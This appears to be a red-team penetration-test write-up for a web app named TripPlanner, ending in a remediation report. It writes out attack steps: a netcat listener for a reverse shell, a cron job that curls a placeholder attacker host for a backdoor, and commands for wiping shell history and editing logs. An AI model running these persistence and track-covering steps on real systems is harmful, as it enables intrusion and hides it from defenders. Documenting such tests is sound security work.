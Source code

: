 # Gaining Access

- `/admin-dev/` panel used default credentials: `admin:admin`
- Upload feature lacked validation — accepted `.php` with `.jpg` extension
- Reverse shell uploaded and executed

nc -lvnp 4444


Gained shell as www-data

---

### 📄 `persistence-strategy.md`

# Maintaining Access

- Placed a PHP reverse shell in an unused media folder (`/assets/uploads`)
- Added a hidden cron job to ping back every 10 minutes:

*/10 * * * * curl http://attacker-ip/backdoor.php


Maintained access even after admin logout and server restart

---

### 📄 `cleanup.md`

# Covering Tracks (Red Team Simulation)

- Cleared `.bash_history`:

cat /dev/null > ~/.bash_history


Deleted uploaded reverse shell after session closed

Modified access logs to remove attacker IP:


---

### 📄 `report-structure.md`

# Pen Test Summary Report – TripPlanner

## Methodology: 5-Phase Model

| Phase | Action Taken | Risk Level |
|-------|---------------|-------------|
| Recon | Found exposed Git config & dev subdomain | Medium |
| Scanning | Found dev panel & backup file | High |
| Gaining Access | Exploited default admin credentials | Critical |
| Maintaining Access | Uploaded persistent shell | Critical |
| Covering Tracks | Simulated OPSEC – log deletion | High |

---

## Recommendations

- Block access to `.git/`, `/backup.zip`, and dev subdomains
- Enforce strong credential policies
- Limit upload file types and sanitize inputs
- Monitor cron activity and unusual outbound traffic

---

**Status:** Full remediation in progress



